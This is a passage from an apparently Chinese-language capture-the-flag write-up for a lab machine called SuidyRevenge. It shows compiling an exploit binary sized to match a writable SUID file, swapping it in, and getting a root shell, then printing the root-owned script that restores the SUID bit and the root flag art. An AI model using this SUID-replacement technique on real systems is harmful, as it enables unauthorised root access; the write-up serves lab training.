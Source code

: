 
```C
gcc exp.c -o suidyyyyy
```
很好大小一模一样

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/17.SuidyReverse.013.png)

替换执行

这里提权不了 多执行几次

```Bash
root@suidyrevenge:/home/suidy# ./suidyyyyy
root@suidyrevenge:/home/suidy# id
uid=0(root) gid=0(root) groups=0(root),1004(theuser)
```


```Bash
root@suidyrevenge:/root# cat script.sh
FILE=/home/suidy/suidyyyyy
if [ -f "$FILE" ]; then
echo ""
        else
   cp /root/suidyyyyy /home/suidy
   chown root:theuser /home/suidy/suidyyyyy
   chmod 770 /home/suidy/suidyyyyy
   chmod +s /home/suidy/suidyyyyy

fi


if [ $(stat -c%s /root/suidyyyyy) -ne $(stat -c%s /home/suidy/suidyyyyy) ]; then
   echo "They're different."
   cp /root/suidyyyyy /home/suidy
   chown root:theuser /home/suidy/suidyyyyy
   chmod 770 /home/suidy/suidyyyyy
   chmod +s /home/suidy/suidyyyyy
else
chmod +s /home/suidy/suidyyyyy
fi

root@suidyrevenge:/root# cat root.txt

                                   .     \*\*
                                \*           \*.
                                              ,\*
                                                 \*,
                         ,                         ,\*
                      .,                              \*,
                    /                                    \*
                 ,\*                                        \*,
               /.                                            .\*.
             \*                                                  \*\*
             ,\*                                               ,\*
                \*\*                                          \*.
                   \*\*                                    \*\*.
                     ,\*                                \*\*
                        \*,                          ,\*
                           \*                      \*\*
                             \*,                .\*
                                \*.           \*\*
                                  \*\*      ,\*,
                                     \*\* \*,


```